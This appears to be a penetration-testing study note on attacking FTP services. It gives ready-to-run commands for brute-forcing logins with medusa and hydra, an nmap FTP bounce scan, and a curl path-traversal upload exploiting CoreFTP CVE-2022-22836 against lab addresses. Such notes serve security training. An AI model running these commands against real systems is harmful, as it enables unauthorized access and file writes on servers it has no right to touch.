 ### Misconfigurations 

#Anonymous Auth?

### Brute Forcing 
```shell
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```

```shell
hydra -L user.list -P pass.list <ip> ftp
```

### FTP Bounce Attack 
![[Pasted image 20230803132857.png]]
Use #FTP server to deliver outbound traffic to another device on the network. 

```shell
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

Often disabled by default but can be #misconfigured  

### FTP Vulnerabilities 
#### CoreFTP before build 727 
[CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836)

```shell
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
